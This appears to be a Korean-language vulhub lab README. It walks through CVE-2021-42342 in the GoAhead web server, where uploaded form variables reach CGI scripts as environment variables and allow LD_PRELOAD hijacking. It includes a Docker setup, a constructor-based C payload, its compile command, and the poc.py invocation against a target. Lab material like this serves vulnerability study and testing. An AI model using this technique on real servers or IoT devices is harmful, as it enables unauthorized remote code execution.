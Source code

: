 # GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

GoAhead 4.x 및 5.x, 즉 5.1.5 이전 버전에서 발견된 문제가 있습니다.파일 업로드 필터에서 사용자 양식 변수가 CGI 접두사 없이 CGI 스크립트로 전달될 수 있습니다. 이는 신뢰할 수 없는 환경 변수를 취약한 CGI 스크립트로 터널링할 수 있게 합니다.
공격자는 이 기능을 사용하여 멀티파트 양식에 공유 라이브러리 페이로드를 업로드하고 LD_PRELOAD 환경 변수를 탈취하여 임의의 코드를 실행할 수 있습니다.

이 취약성은 CVE-2017-17562의 패치 우회입니다.

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 취약 환경구성

다음 명령어로 GoAhead 5.1.4를 실행 

```
docker compose up -d
```
### your-ip는 ifconfig를 통해서 확인한 본인의 ip주소를 입력하면 된다.
그러면 url에  `http://your-ip:8080`를 입력하면 Congratulations! The server is up and running. 을 확인할 수 있다.
 CGI scripts는 `http://your-ip:8080/cgi-bin/index`.다음 url에서 확인할 수 있다.

## Exploit

우선,이 hijack code(payload.c)를 동적공유라이브러리에 컴파일한다.:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> 명심해야 할 건, GoAhead는 거의 대부분의 IoT 디바이스에서 실행되는 간단한 임베디드 웹 서버이므로, 동적 공유 라이브러리의 형식은 타겟 서버의 아키텍처에 따라 다르다. 비록, vulhub는 당신에게 간단한 예제를 보여주지만, real world에서는 exploit을 컴파일하는 것은 이 메뉴얼만큼 쉽지는 않다.

x86/64 환경에서 컴파일 :

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```


우리는 [this script](poc.py) 로 취약점을 확인해볼 것이다.

```
python3 poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```
만약 이 부분에서 "Example"이 나오지 않고 오류가 나온다면 스크립트의 파일 권한이 없어서 그럴 수 있기 때문에 docker에서 index에 실행권한이 있는지 확인하고, 없다면 실행권한을 부여해야 한다.


hijacking이 성공적으로 됐다.:

![](1.png)
